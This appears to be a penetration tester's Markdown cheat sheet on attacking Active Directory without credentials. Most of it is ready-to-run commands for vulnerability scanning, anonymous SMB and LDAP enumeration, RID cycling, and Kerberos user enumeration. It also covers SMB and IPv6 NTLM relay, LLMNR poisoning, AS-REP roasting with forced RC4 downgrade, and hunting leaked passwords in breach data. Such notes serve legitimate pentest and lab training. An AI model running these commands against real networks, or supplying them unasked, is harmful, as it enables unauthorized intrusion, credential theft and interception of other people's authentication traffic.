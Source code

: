 ```yaml
---
layout: ../../../../layouts/NoteLayout.astro
title: Enumeration without credentials
category: Active Directory Security
subcategory: Enumeration
---
```



# Introduction

most of the time when you're hacking an AD environment, you are just with your kali, no user no password. Here is what to do to get your first user!

# Find Domain Controllers

```shell
nslookup domain.com
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain>.com
nltest /dclist:domain.com
Get-ADDomainController -filter * | Select-Object name
gpresult /r
$Env:LOGONSERVER 
echo %LOGONSERVER%
```

# Scanning For Known Vulnerabilites

```shell
nxc smb 10.10.10.123 -u '' -p '' -M zerologon -M printnightmare -M smbghost

nxc smb 10.10.10.123 -u '' -p '' -M coerce_plus
```
Check out what other modules are available via `nxc <protocol> -L`


# SMB Anonymous Access
shares, users, password policies and groups enumeration.

```shell
nxc smb 10.10.10.123

nxc smb 10.10.10.123 -u '' -p ''
nxc smb 10.10.10.123 -u '' -p '' --shares
nxc smb 10.10.10.123 -u '' -p '' --pass-pol
nxc smb 10.10.10.123 -u '' -p '' --users
nxc smb 10.10.10.123 -u '' -p '' --groups

nxc smb 10.10.10.123 -u 'a' -p '' 
nxc smb 10.10.10.123 -u 'a' -p '' --shares
```

```shell
# Maps the network of live hosts and saves a list of only the hosts that don't require SMB signing. List format is one IP per line

nxc smb 10.10.10.0/24 --gen-relay-list relay_list.txt
```


```shell
enum4linux-ng -A 10.10.10.123

enum4linux-ng -A 10.10.10.123 -u 'guest' -p ''
```

```shell
smbmap -u "" -p "" -P 445 -H 10.10.10.123

smbmap -u "guest" -p "" -P 445 -H 10.10.10.123
``

```shell
smbclient -N -U "" -L \\10.10.10.123

rpcclient -N -U "" -L \\10.10.10.123
```


```shell
enum4linux-ng -U 10.10.10.123 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```


## Changing expired password via smbpasswd

-> Identify

```shell
nxc smb $IP -u users.txt -p pass.txt  

\\ STATUS_PASSWORD_MUST_CHANGE
```

-> Changing expired password

```shell
smbpasswd -r <ip> -U <user>
```

## SMB Relay Attack (SMB signing is disabled)

```shell
# check if host doesn't require SMB signing using nmap

nmap --script smb-security-mode.nse,smb2-security-mode.nse -p445 127.0.0.1
```

Off SMB and HTTP in `/etc/responder/Responder.conf` then:

```shell
sudo responder -I tun0 -dwP
```
then:

```shell
sudo impacket-ntlmrelayx -tf targets.txt -smb2support

sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i # for interactive mode
```
then:

```shell
nc 127.0.0.1 <port specified>
```


# LDAP Anonymous Access
users, computers and enumeration on any object.

```shell
nxc ldap 10.10.10.123 -u "" -p "" --users
```

```shell
ldapsearch -LLL -x -H ldap://test.local -b '' -s base '(objectclass=\*)'

ldapsearch -H ldaps://test.local/ -x -s base -b '' "(objectClass=*)" "*" +
```

```shell
ldapsearch -h 10.10.10.123 -x -b "DC=$DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d " "

windapsearch.py --dc-ip 10.10.10.123 -u "" -U
```

```shell
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

```shell
nxc ldap 10.10.10.123 -u "" -p "" --query "(sAMAccountName=Administrator)" ""
nxc ldap 10.10.10.123 -u "" -p "" --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
```

```shell
nxc ldap 10.10.10.123 -u user.txt -p '' --asreproast output.txt
```


```shell
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.10.123
```



# RID cycling
Enumerate users from the Domain Controllers.


```shell
impacket-lookupsid vuln.org/guest@10.10.10.123

impacket-lookupsid anonymous@10.10.10.123
```

```shell
kerbrute userenum -d test.local usernames.txt

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```

```shell
# https://github.com/trustedsec/ridenum.git
# Rid Enum is a RID cycling attack that attempts to enumerate user accounts through
# null sessions and the SID to RID enum. If you specify a password file, it will
# automatically attempt to brute force the user accounts when its finished enumerating.

./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```


```shell
bloodhound-python -d test.local -v --zip -c All -dc test.local -ns 10.10.10.1
```


# Username Harvesting

We can use a tool such as linkedin2username to scrape data from a company s LinkedIn page and create various mashups of usernames (flast, first.last, f.last, etc.) that can be added to our list of potential password spraying targets. and https://github.com/laramies/theHarvester


# Credential Hunting

Dehashed is an excellent tool for hunting for cleartext credentials and password hashes in breach data. We can search either on the site or using a script that performs queries via the API. Typically we will find many old passwords for users that do not work on externally-facing portals that use AD auth (or internal), but we may get lucky! This is another tool that can be useful for creating a user list for external or internal password spraying.

```shell
sudo python3 dehashed.py -q $DOMAIN.local -p
```

# LLMNR Poisioning

```shell
sudo responder -I eth0 -dwvP

# Technique to capture NTLMv1 challenges/responses for easier cracking:

sudo responder -I eth0 --lm --disable-ess
```


# IPV6 Relay Attack

```shell
sudo mitm6 -d <domain name>

ntlmrelayx.py -6 -t ldap://<domain controller IP> -wh fakewpad.marvel.local -l lootme
```

# AS-REP Roasting

An attacker can use a **man-in-the-middle** position to capture AS-REP packets as they traverse the network **without relying on Kerberos pre-authentication being disabled.** It therefore works for all users on the VLAN. [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) allows us to do so. Moreover, the tool forces client workstations to use RC4 by altering the Kerberos negotiation.

```shell
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center (KDC). The only thing that's necessary to query accounts is a valid set of usernames which was enumerated via Kerbrute.

```bash
impacket-GetNPUsers -no-pass -usersfile userlist.txt domain.com/
```
